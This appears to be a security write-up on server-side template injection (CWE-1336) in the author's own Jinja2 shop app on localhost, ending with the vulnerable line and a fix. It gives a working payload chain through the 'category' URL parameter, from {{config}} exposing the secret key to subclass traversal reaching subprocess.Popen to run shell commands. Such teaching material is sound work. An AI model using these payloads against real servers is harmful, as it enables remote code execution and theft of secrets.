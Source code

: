 # Analysis CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

## Introduction 
Many web applications use template engines that allow developers to insert externally-influenced values into free text or messages in order to generate a full web page, document, message, etc. Such engines include Twig, Jinja2, Pug, Java Server Pages, FreeMarker, Velocity, ColdFusion, Smarty, and many others - including PHP itself. Some CMS (Content Management Systems) also use templates.

Template engines often have their own custom command or expression language. If an attacker can influence input into a template before it is processed, then the attacker can invoke arbitrary expressions, i.e. perform injection attacks. For example, in some template languages, an attacker could inject the expression "{{7*7}}" and determine if the output returns "49" instead. The syntax varies depending on the language.

We our case we are using Jinja2 to generate this templates.

## Example

We can search for products based on a url , i.e ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category=Drinkware``` . But we can exploit this since our category field is vulnerable to SSTi.
The link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{2*2}}``` returns the following result.

![image](static/81135b32-37f2-4e2c-ad74-237fff2f3e06.png)

As we can see the category is 4 the result of 2*2. But this raises the question who did this calculation and why? The answer is that the server did , so that means that we are executing code on the server and the server ran the code for the calculation because ```{{ }}``` signals to Jinga2 to render something that it in our case the result of 2\*2.
If we try the link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{print("Hi")}}``` we will see something curious.

![image](static/e410f795-abcf-4bfe-bc9e-1eaca2c0e50e.png)

This error is the result of the template engine running in a sandbox where we cant do function calls directly i.e we cant do ```print("Hi")```.
So what do we have access to? We at least have access to numbers as we show above , but also strings , list , dict , tuple , some variables like config , request .

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20config%20}}``` returns the following result.

![image](static/f2ed6d6b-6e34-4d5a-848e-b0b83b6cf40a.png)

In here we have access to something we probably shouldnt have, namely 'SECRET_KEY': 'dev'.

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20dict.__base__.__subclasses__()%20}}``` returns the following result.

![image](static/3b00e088-2795-453d-ae84-925a4d0c3d28.png)

What happened here is that we are running this piece of code ```dict.__base__.__subclasses__()```. ```dict``` is a class and ```dict.__base__``` returns the base class of ```dict``` which is ```Object```. Then we basicly do ```Object.subclasses()``` which returns a list of all classes ( since all classes come from the ```Object``` class). And this has give us the opportunity to access hundreds of new classes and functions in those classes , and have some fun with them. ```{{dict.__base__.__subclasses__()[351]}}``` is gonna give us ```<class 'subprocess.Popen'>``` which spawn some process. ( the index to find this class may vary )

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22ls%20%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Lists the file on the directory with ```ls```.

![image](static/0d2e307a-cb52-4064-af3a-f7c59ddf43f7.png)

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22cat%20__init__.py%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Shows the contents of ```__init__.py``` which is source code of our website.

![image](static/b29ae7e0-eeb9-423e-861a-06937e28156c.png)

At this point we have access to ```bash``` commands and we can go do some damage to the server.

## Weak code

![image](static/f18d3a42-f402-4011-a008-cafd5530d711.png)

On this line we are calling rendering on category as a template but we never check if category is safe to render().

## Fix 

- Category shouldnt be rendered as a template it should be only treated as text to inject in some template, never a template.

![image](static/f427b211-2250-44d1-a925-e07b80728718.png)

- If we really need to render Category has a template we could also validade that category is something safe to render. 









